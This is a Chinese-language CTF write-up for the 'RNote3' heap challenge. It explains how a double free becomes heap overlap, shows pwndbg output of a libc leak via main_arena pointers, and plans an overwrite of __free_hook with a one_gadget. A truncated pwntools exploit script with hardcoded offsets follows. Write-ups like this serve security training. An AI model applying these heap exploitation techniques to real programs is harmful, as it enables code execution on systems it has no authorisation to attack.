 ## 利用思路

存在double free那就直接构造heap overlap

new一个fastbin chunk double free后再new 2个chunk free其中一个show另外一个就可以得到被free的内容

这里的话被free的那个大小在smallbin范围这样free的时候就可以得到指向main_arena+88的指针

调试得到结果

```c
Allocated chunk | PREV_INUSE
Addr: 0x56030ec23020
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56030ec23040
Size: 0x111
fd: 0x7f0b26b98b78
bk: 0x7f0b26b98b78

```

```c
pwndbg> x/32gx 0x56030ec23020
0x56030ec23020:	0x000056030ec23050	0x0000000000000021
0x56030ec23030:	0x6868686868686868	0x6868686868686868

```

直接show另外一个就可以得到libc

得到libc之后，我们去攻击free_hook，利用UAF。

因为double free的利用使得没free的那个chunk指向了被free的chunk，那么我们相当于有了UAF漏洞了。

## EXP

```python
from pwn import *

one_gadget= 0x4526A  #0x4527a 
freehook=0x3c67a8


r=process('./RNote3')
#r=remote('192.168.40.10' ,'27428')

def add(idx, content_size, content):
    r.sendline('1')
    r.recvuntil('please input title: ')
    r.send(idx)
    r.recvuntil('please input content size: ')
    r.sendline(str(content_size))
    r.recvuntil('please input content: ')
    r.send(content)

def show(idx):
    r.sendline('2')
    r.recvuntil('please input note title: ')
    r.send(idx)

def edit(idx, content):
    r.sendline('3')
    print r.recvuntil('please input note title: ')
    r.send(idx)
    print r.recvuntil('please input new content: ')
```